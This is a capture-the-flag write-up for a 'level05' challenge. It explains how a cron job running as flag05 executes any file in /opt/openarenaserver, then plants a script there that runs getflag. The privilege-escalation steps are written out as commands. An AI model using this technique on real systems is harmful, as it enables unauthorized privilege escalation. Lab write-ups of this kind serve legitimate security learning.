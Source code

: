 ## Solutions

When you connect to the shell you have a new mail

```console
~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This is a cronjob.
It launch a script called openareaserver with the user flag05 every 2 minutes

```
~$ cat /usr/sbin/openarenaserver
#!/bin/sh
for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script loop through all openarenaserver directory and execute each file
in this directory, -x launch the script in debug mode and redirect output to 
stderr

ulimit limit restrict the time utilization of the the script to 5 seconds

```console
~$ echo 'getflag > /opt/openarenaserver/out' > /opt/openarenaserver/test.sh
```

wait until the cron job execute the process

```console
~$ cat /opt/openarenaserver/out
```
